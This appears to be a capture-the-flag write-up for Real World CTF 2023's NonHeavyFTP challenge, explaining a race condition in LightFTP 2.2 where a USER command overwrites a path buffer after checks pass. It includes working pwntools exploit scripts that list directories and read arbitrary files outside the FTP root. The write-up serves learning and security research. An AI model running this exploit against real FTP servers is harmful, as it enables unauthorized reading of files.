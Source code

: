 ```yaml
---
categories:
- CTF
image:
  path: rwctf23_logo.png
layout: post
media_subpath: /assets/posts/2023-01-08-real-world-ctf-2023-nonheavyftp
tags:
- binary exploitation
- linux
title: Real World CTF 2023 – NonHeavyFTP
---
```


This is a short writeup on the "NonHeavyFTP" challenge from Real World CTF 2023. This was one of the easier challenges with the goal of exploiting [LightFTP](https://github.com/hfiref0x/LightFTP) in Version 2.2 (the latest one on github at the time). I ended up with a file-read vulnerability that allowed to read the flag.

## Vulnerability Discovery

We are given a compiled binary but there is no need to use it (unless you want to use it for local testing) since the source is on github. In addition, we get the config used on the remote system which only allows anonymous login with read-only permissions:

```
...
[anonymous]
pswd=*
accs=readonly
...
```

Unless we can somehow bypass this, we are limited to reading files (and reading the flag is enough to finish this challenge). I started to fuzz the challenge with boofuzz & the FTP fuzzing-script from its author. Unfortunately, this did not yield any results but for documentation’s sake this is how it’s setup:

- [FTP Fuzzing Script](https://github.com/jtpereyda/boofuzz-ftp)
- [Boofuzz](https://github.com/jtpereyda/boofuzz)

```
# install boofuzz
mkdir boofuzz && cd boofuzz
python3 -m venv env
source env/bin/activate
pip install -U pip setuptools
pip install boofuzz

# start local version of fftp on port 2121 
./fftp

# start fuzzer
python3 fuzz.py fuzz --target-port=2121 --target-host=127.0.0.1 --username=anonymous --password=xct
```

This ran at about 500 exec/s on my VM but required restarting every ~32k sessions because the user limit was reached and increasing it in the config did not help. It did not find any vulnerabilities though. That leaves us with source code review to find something. Looking a bit around for dangerious functions we find a `strcpy` at <https://github.com/hfiref0x/LightFTP/blob/master/Source/ftpserv.c#L265> :

```
int ftpUSER(PFTPCONTEXT context, const char *params)
{
    if ( params == NULL )
        return sendstring(context, error501);

    context->Access = FTP_ACCESS_NOT_LOGGED_IN;

    writelogentry(context, " USER: ", (char *)params);
    snprintf(context->FileName, sizeof(context->FileName), "331 User %s OK. Password required\r\n", params);
    sendstring(context, context->FileName);

    /* Suspicious strcpy */
    strcpy(context->FileName, params);
    return 1;
}
```

This looked interesting (e.g. send a large username to overflow the buffer) but it turned out that we can not send a buffer large enough to overflow `context->FileName`. If we search for other uses of `context->FileName` , we can see that most FTP commands are actually using this as a buffer to hold different things. At this point I was thinking we might be able to use a race condition to overwrite the contents of this buffer after a function does checks on it, for example:

```
int ftpLIST(PFTPCONTEXT context, const char *params)
{
   ...
    /* this function makes sure we stay inside the ftp root directory */
    ftp_effective_path(context->RootDir, context->CurrentDir, params, sizeof(context->FileName), context->FileName);

    while (stat(context->FileName, &filestats) == 0)
    {
        if ( !S_ISDIR(filestats.st_mode) )
            break;

        sendstring(context, interm150);
        writelogentry(context, " LIST", (char *)params);
        context->WorkerThreadAbort = 0;

        pthread_mutex_lock(&context->MTLock);

        context->WorkerThreadValid = pthread_create(&tid, NULL, (void * (*)(void *))list_thread, context);
        if ( context->WorkerThreadValid == 0 )
            context->WorkerThreadId = tid;
        else
            sendstring(context, error451);

        pthread_mutex_unlock(&context->MTLock);

        return 1;
    }
    return sendstring(context, error550);
}
```

If we could overwrite `context->FileName` after the `ftp_effective_path` function is called, it would just open the file we want even if its outside the ftp root. This buffer is assigned per connection though, so it’s not possible to overwrite it from a new connection.

There is however a different way that does not rely on a new connection. FTP can be used in **passive** and **active** mode. The way this works is, that for FTP there is a command channel and a data channel. In active mode we connect to (usually port 21) the command port and can issue whatever commands we want. If we want to get any data back, the service will connect to a port on our *client-machine* and send the data. In passive mode, if we connect to the service it will tell us a port on the *server-side* that we can connect to, to get the data. It turns out active mode is not possible here due to firewall constraints so we have to use passive mode.

If we issue a command in passive mode, like the `LIST` command in the example above, it will try to send the listing data to the port that was defined when we made the connection. As long as we do not connect there it can however not send the data.

This is the way it sends (after we connect) it via the [`stor_thread` ](https://github.com/hfiref0x/LightFTP/blob/c9e473d9444ff1e8380548281bf70dd79b47c3ca/Source/ftpserv.c#L1070)function:

```
void *stor_thread(PFTPCONTEXT context)
{
       ...

        f = open(context->FileName, O_CREAT | O_RDWR | O_TRUNC, S_IRWXU | S_IRGRP | S_IROTH);
        context->File = f;
        if (f == -1)
            break;

        ...
    return NULL;
}
```

This function is run as a new thread and is also using `context->FileName`! This means that we can do the following:

- Issue **LIST** command with some random path, it will get stored in `context->FileName`. The thread starts but blocks since no connection has been made. As soon as it unblocks it will read `context->FileName`.
- Issue **USER** command with a crafted username (directory name that we want to list), this will also get stored in `context->FileName`. Since the thread is still blocked that wants to send the result, we just overwrite the path after the checks were done!
- Connect to the FTP data port to allow it to send the data

## Exploitation

The flag has a random filename so we start by using our vulnerability to list the contents of the root directory:

```python
from pwn import *
import binascii
context.terminal = ['alacritty', '-e', 'zsh', '-c']

RHOST = b"47.89.253.219"

def init():
    p.recvuntil(b"220")
    p.sendline(b"USER anonymous")
    p.recvuntil(b"331")
    p.sendline(b"PASS root")
    p.recvuntil(b"230")
    p.sendline(b"PASV")
    p.recvline()
    result = p.recvline().rstrip(b"\r\b")
    parts = [int(s) for s in re.findall(r'\b\d+\b', result.decode())]
    port = parts[-2]*256+parts[-1]
    return port

def read(port):
    p = remote(RHOST, port, level='debug')
    print(p.recvall(timeout=2))
    p.close()

# list dir
p = remote(RHOST, 2121, level='debug')
p.newline = b'\r\n'
port =init()
p.sendline(b"LIST ")  # send LIST command, wants to send us result via data port
p.sendline(b"USER /") # send USER command to overwrite dirname used by LIST
p.recvline()
read(port)
p.recvline()
p.recvline()
p.close()
```

Running this exploit lists the root directory and yields us the flag name. With the same technique we can now retrieve the flag file (or any file on the system):

```python
...
p = remote(RHOST, 2121, level='debug')
p.newline = b'\r\n'
port =init()

p.sendline(b"RETR hello.txt")
p.sendline(b"USER /flag.deb10154-8cb2-11ed-be49-0242ac110002")
p.recvline()
read(port)
p.recvline()
p.recvline()
p.close()
```

That’s it for this challenge :)